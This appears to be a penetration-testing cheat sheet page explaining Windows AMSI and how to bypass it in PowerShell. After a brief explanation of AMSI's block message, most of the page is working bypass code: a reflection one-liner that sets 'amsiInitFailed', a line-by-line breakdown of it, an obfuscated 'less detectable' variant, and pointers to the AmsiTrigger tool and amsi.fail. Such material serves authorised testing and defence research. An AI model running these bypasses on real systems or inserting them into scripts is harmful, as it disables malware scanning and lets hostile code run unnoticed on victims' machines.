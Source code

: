 #### AMSI (Anti Malware Scan Interface)
AMSI is a Powershell feature that scans payloads before execution during runtime.
It's fully integrated with:
-  Powershell
-  VBScript
-  Windows script hosts (wscript, cscript)
-  Office VBA macros
If you are getting errors saying  
```
This script contains malicious content and has been blocked by your antivirus software.
		+ CategoryInfo          : ParserError: (:) []. ParentContainsErrorRecordException
		+ FullyQualifiedErrorId : ScriptContainedMaliciousContent
```
It's AMSI.

### Automated exploitation
For commands, visit [amsi.fail](http://amsi.fail)
Or use AmsiTrigger:
```
AmsiTrigger_x64.exe -i "bypass.ps1" -f 3      // Finds and bypasses the AMSI triggers
```


One-liner to bypass AMSI using Powershell reflection (can get detected):
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

// Explanation
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')   // Gets the AMSI-utilities in Powershell
.GetField('amsiInitFailed','NonPublic,Static')                     // Get a specific field from the AMSI-utils section
.SetValue($null,$true)                                             // Sets "amsiInitFailed" to True, so it will stop being checked
```

Less detectable:
```powershell
$a='si';$b='Am';$Ref=[Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils'-f $b,$a)); $z=$Ref.GetField(('am{0}InitFailed'-f$a),'NonPublic,Static');$z.SetValue($null,$true)
```